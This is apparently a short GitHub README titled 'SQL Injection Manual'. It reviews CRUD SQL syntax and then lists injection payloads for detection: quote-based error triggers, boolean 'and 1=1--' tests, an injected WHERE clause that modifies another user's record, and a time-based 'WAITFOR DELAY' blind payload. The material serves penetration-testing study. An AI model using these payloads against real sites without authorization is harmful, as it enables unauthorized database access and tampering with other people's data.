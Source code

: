 
# SQL Injection Manual

SQL injection is a type of injection attack where attacker injects arbitrary SQL queries into database server using input options


## Important Note

SQL Version and program can be different in different sites
Like MySQL  , PostGrsql , Oracle , MsSQL etc. So the syntax is also different in them. [FOLLOW THIS FOR TESTING](https://portswigger.net/web-security/sql-injection/cheat-sheet)




## CURD Operation In SQL 

Create (INSERT):

```sql
  INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...)
  INSERT INTO customers (name, email, phone) VALUES ('John Doe', 'john@example.com', '123456789')
```

Read (SELECT):

```sql
  SELECT column1, column2, ... FROM table_name WHERE condition
  SELECT * FROM customers WHERE uid = 1
```

Update (UPDATE):

```sql
  UPDATE table_name SET column1 = value1, column2 = value2, ... WHERE condition
  UPDATE customers SET email = 'newemail@example.com' WHERE id = 1
```

Delete (DELETE):

```sql
    DELETE FROM table_name WHERE condition
    DELETE FROM customers WHERE id = 1
```


## SQL Injection Detection and confirmation


In Create Operation

```SQL
  # Error Based PAYLOADS [;,--,',",#]
  name=hacker'

  # Condition Based Detection
  name=hacker'and 1=1-- (Sucess Execution)
  select name from users where id=1 and 1=1;--;

  name=hacker'and 1=2-- (Failed  Execution)
  select name from users where id=1 and 1=2;--;


  email=newemial@gmail.com' WHERE id= {not_yours};--
  UPDATE customers SET email = 'newemail@example.com' WHERE id = -1 ;--

  # Blind Based PAYLOADS
  email=test@emial.com' WAITFOR DELAY '0:0:10'--

  
```

